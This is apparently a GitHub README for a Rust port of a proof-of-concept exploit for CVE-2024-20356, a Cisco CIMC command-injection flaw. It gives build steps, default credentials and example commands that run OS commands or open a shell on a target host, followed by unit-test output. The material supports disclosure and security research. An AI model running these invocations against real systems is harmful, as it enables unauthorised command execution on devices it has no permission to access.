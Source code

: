 # CVE-2024-20356
This is a proof of concept for CVE-2024-20356, a Command Injection vulnerability in Cisco's CIMC.

Written by Aaron and Oxidised by SherllyNeo

Full technical details can be found at [https://labs.nettitude.com/blog/cve-2024-20356-jailbreaking-a-cisco-appliance-to-run-doom](https://labs.nettitude.com/blog/cve-2024-20356-jailbreaking-a-cisco-appliance-to-run-doom)

## Install
```
cargo build --release && cp ./target/release/CVE_2024_20356 ~/.local/bin/
```

## Usage
```bash
Usage: CVE_2024_20356 [OPTIONS] --host <HOSTNAME>

Options:
  -t, --host <HOSTNAME>      Target hostname or IP address (format 10.0.0.1 or 10.0.0.2:1337)
  -u, --username <USERNAME>  Username [default: admin]
  -p, --password <PASSWORD>  Password [default: cisco]
  -a, --action <ACTION>      Action to perform [default: test] [possible values: test, cmd, shell, dance]
  -c, --cmd <CMD>            OS command to run [default: None]
  -v, --verbose              Displays more information about cimc
  -h, --help                 Print help
  -V, --version              Print version
```

Example commands:
```bash
CVE_2024_20356 --host 192.168.x.x -u admin -p your_password -v
CVE_2024_20356 --host 192.168.x.x -u admin -p your_password -c 'id'
CVE_2024_20356 --host 192.168.x.x -u admin -p your_password -a shell
CVE_2024_20356 --host 192.168.x.x -u admin -p your_password -a dance
```

Use the `--help` argument for full usage instructions.

## Disclaimer
This proof-of-concept is for demonstration purposes and should not be used for illegal activities. LRQA Nettitude are not responsible for any damage caused by the use or misuse of this code.
Don't be evil

## Tests
I wrote this without access to the server based on the [original code base](https://github.com/nettitude/CVE-2024-20356/blob/main/CVE-2024-20356.py).

Due to this I wrote extensive unit tests to ensure that the encryption functions match up with those found in the original.
That the login method works using a mock server.
That the arguement parsing works for IP addresses.

to run these tests, use cargo --test
```bash
cargo test 
   Compiling CVE_2024_20356 v0.1.0 
    Finished `test` profile [unoptimized + debuginfo] target(s) in 2.27s 
     Running unittests src/main.rs (target/debug/deps/CVE_2024_20356-6d8ec478cd93405b) 
running 8 tests 
test libs::encryption::tests::pad_test ... ok 
test libs::encryption::tests::key_fnv32_test ... ok 
test libs::encryption::tests::aes_encrypt_test ... ok 
test libs::encryption::tests::derive_key_and_iv_test ... ok 
test libs::encryption::tests::hash_fnv32_test ... ok 
test libs::encryption::tests::encrypt_test ... ok 
test libs::actions::tests::login_test ... ok 
test libs::arguments::validate_hostname_test ... ok 
test result: ok. 8 passed; 0 failed; 0 ignored; 0 measured; 0 filtered out; finished in 0.02s 

```


